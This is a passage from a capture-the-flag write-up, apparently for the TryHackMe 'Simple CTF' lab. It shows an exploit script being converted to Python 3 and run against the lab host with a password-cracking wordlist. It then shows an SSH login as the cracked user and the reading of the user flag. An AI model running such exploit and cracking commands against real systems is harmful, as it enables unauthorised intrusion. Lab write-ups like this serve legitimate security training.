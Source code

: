 In Python 3, the `print` statement has been replaced with the `print()` function, which must be called with parentheses. In Python 2, the `print` statement did not require parentheses.

We can convert script to python3 vs:

```bash
2to3 -w exploit.py
```

```bash
python exploit.py -u http://simple_ctf.thm/simple --crack -w /usr/share/wordlists/rockyou.txt
```

<figure><img src="../.gitbook/assets/8.png" alt=""><figcaption></figcaption></figure>

> secret

#### 2.6 - Where can you login with the details obtained?

```bash
ssh mitch@simple_ctf.thm -p 2222
```

```bash
The authenticity of host '[simple_ctf.thm]:2222 ([10.10.86.206]:2222)' can't be established.
ED25519 key fingerprint is SHA256:iq4f0XcnA5nnPNAufEqOpvTbO8dOJPcHGgmeABEdQ5g.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '[simple_ctf.thm]:2222' (ED25519) to the list of known hosts.
mitch@simple_ctf.thm's password: 
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.15.0-58-generic i686)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

0 packages can be updated.
0 updates are security updates.

Last login: Mon Aug 19 18:13:41 2019 from 192.168.0.190
```

> SSH

#### 2.7 - What's the user flag?

<pre class="language-bash"><code class="lang-bash">$ $ ls
<strong>user.txt
</strong>$ cat user.txt
</code></pre>
